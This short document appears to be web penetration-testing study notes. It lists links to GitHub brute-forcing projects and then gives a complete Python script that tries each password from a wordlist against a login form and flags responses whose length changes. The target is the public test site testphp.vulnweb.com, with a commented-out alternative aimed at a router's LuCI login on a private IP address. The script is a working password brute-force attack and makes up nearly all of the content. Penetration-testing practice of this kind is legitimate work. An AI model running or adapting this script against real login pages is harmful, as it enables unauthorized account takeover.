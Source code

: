 https://github.com/navin-maverick/BruteBot

https://github.com/PacktPublishing/Learning-Python-Web-Penetration-Testing.git

https://github.com/rpigu-i/python-webapp-username-bruteforcer

[source, python]
----
#! /usr/bin/python

import requests

url = "http://testphp.vulnweb.com/userinfo.php"

# url = "https://192.168.1.182/cgi-bin/luci"

loginpage = requests.get(url)
org = len(loginpage.text)

with open('pass.txt', 'r') as fh:
    for word in fh.readlines():
        password = word.replace("\n", "")
        data = {'uname': 'test', 'pass': password}
        # data = {'luci_username': 'test', 'luci_password': password}
        response = requests.post(url, data = data)
        if org != len(response.text):
            print(password, len(response.text))
----
